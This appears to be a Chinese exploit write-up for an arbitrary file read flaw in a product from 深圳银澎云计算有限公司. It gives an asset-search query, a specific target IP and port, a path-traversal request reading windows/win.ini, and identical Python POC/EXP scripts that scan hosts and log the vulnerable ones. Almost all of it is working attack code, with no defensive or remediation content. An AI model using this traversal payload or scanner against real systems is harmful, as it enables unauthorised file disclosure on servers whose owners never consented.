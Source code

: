 ## 一、资产搜索

```
"深圳银澎云计算有限公司"
```

## 二、网站测试

```
http://118.122.48.169:18080
```

## 三、验证漏洞

```
/register/toDownload.do?fileName=../../../../../../../../../../../../../../windows/win.ini
```

![image-20240906220152065](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240906220152065.png)

## 四、POC

```
payload = "/register/toDownload.do?fileName=../../../../../../../../../../../../../../windows/win.ini"
    try:
        res1 = requests.get(url=target,verify=False,timeout=5)
        if res1.status_code == 200:
            res2 = requests.get(url=target+payload,verify=False,timeout=5)
            if "[fonts]" in res2.text:
                with open("result.txt","a",encoding='utf-8') as f:
                    f.write(f"该网站[+]{target}存在任意文件读取漏洞\n")
                    print(f"该网站[+]{target}存在任意文件读取漏洞\n")
                    return True

            else:
                print(f"该网站[+]{target}不存在任意文件读取漏洞\n")
        else:
            print("连接超时，请手动测试")
    except Exception as e:
        print(e)
```

## 五、EXP

```
def poc(target):
    payload = "/register/toDownload.do?fileName=../../../../../../../../../../../../../../windows/win.ini"
    try:
        res1 = requests.get(url=target,verify=False,timeout=5)
        if res1.status_code == 200:
            res2 = requests.get(url=target+payload,verify=False,timeout=5)
            if "[fonts]" in res2.text:
                with open("result.txt","a",encoding='utf-8') as f:
                    f.write(f"该网站[+]{target}存在任意文件读取漏洞\n")
                    print(f"该网站[+]{target}存在任意文件读取漏洞\n")
                    return True

            else:
                print(f"该网站[+]{target}不存在任意文件读取漏洞\n")
        else:
            print("连接超时，请手动测试")
    except Exception as e:
        print(e)
```

## 六、测试结果

![image-20240906221038082](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240906221038082.png)

![image-20240906215238327](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240906215238327.png)
